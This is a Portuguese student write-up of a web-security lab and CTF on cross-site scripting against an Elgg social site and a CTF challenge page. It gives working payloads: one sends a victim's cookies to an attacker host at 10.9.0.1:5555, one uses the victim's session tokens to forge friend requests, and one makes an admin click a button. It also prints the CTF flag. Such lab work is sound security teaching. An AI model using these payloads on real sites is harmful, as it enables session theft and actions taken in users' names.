 # Task 1

Nesta tarefa,  com as credenciais que foram providenciadas anteriormente entramos, nós entramos na aplicação web com as credenciais da Alice e colocamos no campo "brief description" o código html: 

``<script>alert('XSS');</script>``


![task1](Images/brief.png) 


![task1](Images/xss.png) 

# Task 2

Esta tarefa foi parecida com a anterior. Foi pedido para apresentar as cookies do utilizador no ecrã, assim, alteramos o código do script anterior:

``<script>alert(document.cookie);</script>``

![task2](Images/brief2.png)

![task2](Images/cookie.png)

# Task 3

Nesta tarefa foi pedido para roubar as cookies do utilizador, isto é, diferente da tarefa anterior que apenas mostrava as cookies, agora queremos que elas sejam enviadas para o atacante.
Desse modo, foi preciso que o código fizesse um *request* ao atacante, que pode ser feito se inserirmos uma imagem através do código que tente aceder a um url na máquina do atacante.
Assim, após editar o código, tivemos como resultado:

``<script>document.write(’<img src=http://10.9.0.1:5555?c=’+ escape(document.cookie) + ’ >’); </script>`` 

De modo que quando a aplicação web enviar o request HTTP, aparecem os cookies do utilizador na nossa máquina.

![task3](Images/LB10-T3.png)

# Task 4

Nesta tarefa foi pedido para alterarmos um script JS que fizesse com que qualquer pessoa que abrisse o nosso perfil se tornasse amigo de Samy automaticamente.

Para descobrir o pedido url que temos de efetuar adicionou-se o Charlie como amigo e analisou-se o pedido enviado.

`http://www.seed-server.com/action/friends/add?friend=58&__elgg_ts=1642389872&__elgg_token=Mvvc6e0GM1SRrm7qgj4iEA&__elgg_ts=1642389872&__elgg_token=Mvvc6e0GM1SRrm7qgj4iEA `

Analisando o pedido enviado, concluímos que existe um parâmetro `friend` que define o utilizador a adicionar e as tokens de identificação `__elgg_token` e `__elgg_ts` que identificam quem manda o pedido. Para descobrir o id do Samy inspecionamos o elemento da página "http://www.seed-server.com/members".

![task4](Images/LB10-T4.png)

Analisando o id "elgg-user-58" verificamos que o id corresponde ao do parâmetro friend, concluímos então que o id do Samy é 59.

Com os dados adquiridos criamos então um script que adiciona o Samy como amigo.

Código utilizado:
```html
<script type="text/javascript">
    window.onload = function () {
    var Ajax = null;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    var samyID = 59;
    var sendurl = "../action/friends/add?friend="+ samyID + ts + "&__elgg_token=" + token + "&__elgg_ts=" + ts + "&__elgg_token=" + token; 
    Ajax = new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
    }
</script>
```

Para testar se o script funciona logamos com o utilizador Boby e visitamos a página do Samy.

![task4_2](Images/LB10-T4_2.png)

Inicialmente o script aparenta não funcionar, mas apôs dar refresh à página verificamos que o Samy foi adicionado como amigo.

### Question 1: Explain the purpose of Lines 1 and 2, why are they are needed?

As linhas 1 e 2 são usadas para sabermos os tokens do utilizador que abriu o perfil de Samy, algo que apenas o mesmo deve ter acesso e é preciso para fazer um pedido de amizade em nome dele.

### Question 2: If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?

Não é possível, pois o modo de editor substitui os caracteres "perigosos" por outros como o `<` por `&lt`

![task4_3](Images/LB10-T4_3.png)

Na imagem acima vemos o código HTML quando tentamos introduzir o mesmo script no modo de editor.


# CTF 10

## Desafio 1

Neste desafio somos abordados com um serviço constituido por um "administrador" que valida todos os inputs recebe. Usando uma vunerabilidade Cross-Site Scripting (XSS) iremos injetar javascript e executar ações em nome de o administrador.

Ao entrar no site `http://ctf-fsi.fe.up.pt:5002/` pela primeira vez deparamo nos com uma caixa de input e um butão submit. Como a unica coisa que o site faz é receber o input do div com o id="giveflag" tentamos injetar javascript nesse mesmo input.

![ctf10-1](Images/CTF10-1.png)

![ctf10-2](Images/CTF10-2.png)

Como recebemos o alert podemos assumir que o administrador ao verificar o nosso pedido também o recebe. Como no enunciado é dito que o administrador tem acesso ao botão `Give The Flag` só temos de arranjar uma maneira de o fazer premir o mesmo.

Para forçar o administrador a clicar no botão `Give The Flag` foi dado como input o seguinte código:
```html
<script>
    document.getElementById("giveflag").click();
</script>
```

![ctf10-3](Images/CTF10-3.png)

![ctf10-4](Images/CTF10-4.png)

Como podemos observar apôs inserir o input e esperar o tempo necessário para o administrador validar o pedido conseguimos obter a flag{d75c5d11669ca8dc110ce033e77068f3}.

